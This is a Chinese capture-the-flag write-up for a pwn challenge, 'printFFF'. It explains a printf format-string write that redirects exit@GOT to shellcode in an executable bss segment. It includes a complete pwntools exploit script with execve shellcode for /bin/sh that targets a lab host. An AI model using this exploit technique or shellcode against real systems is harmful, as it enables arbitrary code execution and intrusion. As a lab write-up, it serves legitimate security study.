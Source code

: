 # printFFF

> what about "*" print?

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |yes   |

## 解题思路

程序一开始向rwx的bss上读入一段shellcode，只有21字节。
然后输入2个值和写指针类型。设置第一个值为`0x5000`，第二个值为`0x404040(exit@GOT)`，
在设置第三个值为`2`，这样最后`printf`运行结果是将0x5000作为宽度打印字符，
然后认为`0x404040`为`short *`，将0x5000写入进去。

```plaintext
printf("%*6$c%7$n", ?, ?, ?, ?, ?, 2, 0x5000, 0x404040)
==
printf("%20480c%7$hn", ...)

exit@GOT => 0x401080(.plt) -> 0x405000(.bss)
```

退出时由于`exit@GOT`处写了`0x405000`，即shellcode的起始地址，
就会运行到shellcode。经检查，rdx是0，可以省去`xor edx, edx`，使得shellcode短于21字节，
拿到shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './printFFF'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x405000')
    else:
        sh = remote('10.1.101.103', 9999)
    elf = ELF(EXE)
    shell = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    push 0x3b
    pop rax
    syscall
    '''
    sh.send(asm(shell))
    if lo & 2:
        pause()
    else:
        sleep(0.125)
    sh.send(p64(0x5000) + p64(elf.got['exit']) + p64(2))

    sh.clean()
    sh.interactive()
    sh.close()
```

![flag](assets/printFFF.png)
